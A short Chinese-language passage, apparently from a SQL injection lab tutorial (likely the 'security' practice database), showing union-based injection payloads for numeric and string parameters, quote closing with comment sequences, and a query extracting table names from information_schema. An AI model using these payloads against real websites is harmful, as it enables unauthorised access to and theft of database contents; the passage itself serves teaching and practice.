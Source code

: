       然后在repeater中修改参数可以实现sql注入。

三、sql注入

sql注入语句（数字型）： `id=-1 union select 1,2,database()`查询数据库名称
sql注入语句（字符串型）： `id=-1" union select 1,2,database() --+`查询数据库名称
注释：字符串" 为了闭合字符串。 --+或者#或者%23：注释后面的sql代码。
![1573569241096](assets/1573569241096.png)

查询表名

`id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')

![1573570146689](assets/1573570146689.png)

